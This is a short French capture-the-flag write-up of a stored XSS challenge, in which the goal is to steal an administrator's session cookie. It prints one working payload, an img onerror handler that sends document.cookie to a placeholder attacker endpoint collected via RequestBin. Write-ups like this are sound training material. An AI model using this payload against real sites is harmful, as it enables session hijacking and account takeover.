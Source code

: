 # XSS - Stockée 1
facebooklinkedintwitter
## 30 Points  0x0
### Du gateau !
## Énoncé
Volez le cookie de session de l’administrateur et utilisez le pour valider l’épreuve.
## Solution

On arrive sur un site ou on peut envoyer des messages que l'admin va ensuite lire. En envoyant un premier message et en reloadant la page, on voit que les messages sont permanents. On peut donc définitivement procédé à une attaque via une stored xss.

On va donc ecrire un titre au hasard et puis envoyer ceci:
```HTML
<img src=x onerror=this.src="[endpointURL]?cookie="+document.cookie  >
```

lorsque l'admin tombera dessus, on aura donc accès à son cookie. Mais il faut d'abord mettre en place son endpoint.

Pour cela, je me suis aider du site RequestBin pour générer mon endpoint et récupérer les requêtes sur celui-ci. En attendant un peu, on peu voir dans les requêtes que l'une a été faites en utilisant ADMIN_COOKIE.

On a donc récupérer le cookie de l'admin.